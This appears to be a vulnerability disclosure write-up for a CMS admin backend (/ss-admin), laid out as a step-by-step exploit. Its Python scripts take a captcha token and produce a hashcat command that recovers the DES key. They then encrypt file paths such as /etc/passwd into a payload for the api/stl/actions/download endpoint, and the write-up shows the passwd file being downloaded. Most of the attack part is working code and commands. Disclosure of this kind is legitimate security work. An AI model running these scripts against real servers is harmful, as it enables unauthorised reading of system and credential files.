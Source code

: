 Visit the backend at http://ip/ss-admin/login/
<img width="693" height="446" alt="image" src="https://github.com/user-attachments/assets/86917f27-4e55-47cb-9bb3-db5e7202477f" />

Right-click on "Check" and navigate to the verification code area as shown below:
<img width="691" height="224" alt="image" src="https://github.com/user-attachments/assets/37ec08d3-e8b0-44a0-860e-0bf081276aed" />

Copy the value of the token again:
y5WWupq9Uh0slash0X9rQ66OSpKxMH811v8xERFkSwjNy4ZvHr7YQDiEFDM3SocOEZkWZdtrCienNat0i0slash0NPC20slash0Uhtyw0equals00equals00secret0
Use the following Python script to generate the hashcat command

import base64
def b64_de_replace(txt):
    txt = txt.replace('0secret0', '') 
    txt = txt.replace('0add0', '+').replace('0equals0', '=').replace('0and0', '&')
    txt = txt.replace('0question0', '?').replace('0quote0', "'").replace('0slash0', '/')
    return txt
def bxor(b1, b2):
    result = bytearray()
    for a, b in zip(b1, b2):
        result.append(a ^ b)
    return bytes(result)
def generate_hashcat_command(ct, pt_first_block, iv):
    cleaned_ct = b64_de_replace(ct)
    decoded_ct = base64.b64decode(cleaned_ct)
    first_block_ct = decoded_ct[:8]
    ct_hex = first_block_ct.hex()
    intermediate = bxor(pt_first_block, iv)
    intermediate_hex = intermediate.hex()
    command = (
        f"hashcat -m 14000 {ct_hex}:{intermediate_hex} "
        f"-a 3 \"?h?h?h?h?h?h?h?h\" --force"
    )
    return command
if __name__ == "__main__":
    ct = 'y5WWupq9Uh0slash0X9rQ66OSpKxMH811v8xERFkSwjNy4ZvHr7YQDiEFDM3SocOEZkWZdtrCienNat0i0slash0NPC20slash0Uhtyw0equals00equals00secret0'  #Replace with the token value of the verification code just now
    pt_first_block = b'{\n  "val'  
    iv = b'\x12\x34\x56\x78\x90\xab\xcd\xef'  
    # Generate hashcat command
    command = generate_hashcat_command(ct, pt_first_block, iv)
    print("Please run the following command to crack the DES key:")
    print(command)
  
<img width="692" height="81" alt="image" src="https://github.com/user-attachments/assets/2d05e1a7-b3b9-4e80-b695-56b9614c9a46" />
Use hashcat tool to explode the equivalent key:
<img width="692" height="477" alt="image" src="https://github.com/user-attachments/assets/1d3c2596-d06f-428e-9161-9722460358fa" />

Equivalent Key:d3a3d312
Then use the following Python script to generate the API path for downloading any file

from Crypto.Cipher import DES
import base64
def encrypt_string_by_secret_key(input_string, secret_key):
    iv = bytes([0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF])
    secret_key = secret_key[:8]
    try:
        des = DES.new(secret_key.encode('utf-8'), DES.MODE_CBC, iv)
        padding_len = 8 - (len(input_string) % 8)
        input_string_padded = input_string + chr(padding_len) * padding_len
        encrypted_bytes = des.encrypt(input_string_padded.encode('utf-8'))
        base64_encrypted = base64.b64encode(encrypted_bytes).decode('utf-8')
        base64_encrypted = base64_encrypted.replace("+", "0add0") \
            .replace("=", "0equals0") \
            .replace("&", "0and0") \
            .replace("?", "0question0") \
            .replace("'", "0quote0") \
            .replace("/", "0slash0")
        encrypt_indicator = "0secret0"
        return base64_encrypted + encrypt_indicator
    except Exception as e:
        print("DES Encryption failed:", str(e))
        return None
# 示例数据
# file_path = r"C:\Windows\win.ini"  # The path to download the file
file_path = r"/etc/passwd"  # The path to download the file
secret_key = "d3a3d312" #Replace with the equivalent key generated earlier
# 加密
encrypted_file_path = encrypt_string_by_secret_key(file_path, secret_key)
if encrypted_file_path:
    print("Encryption result:", encrypted_file_path)
    print("payload:","api/stl/actions/download?filePath="+encrypted_file_path)
else:
    print("Encryption failed")

<img width="692" height="99" alt="image" src="https://github.com/user-attachments/assets/19c80011-2048-42f3-bc7c-59fee4589d5c" />

visit :http://ip/api/stl/actions/download?filePath=5tckNs4Ydqz58s7VvQ9RxQ0equals00equals00secret0
<img width="692" height="288" alt="image" src="https://github.com/user-attachments/assets/f3e0631f-3fe8-48d1-8f6e-15ef63ef9bfc" />
Successfully downloaded passwd file
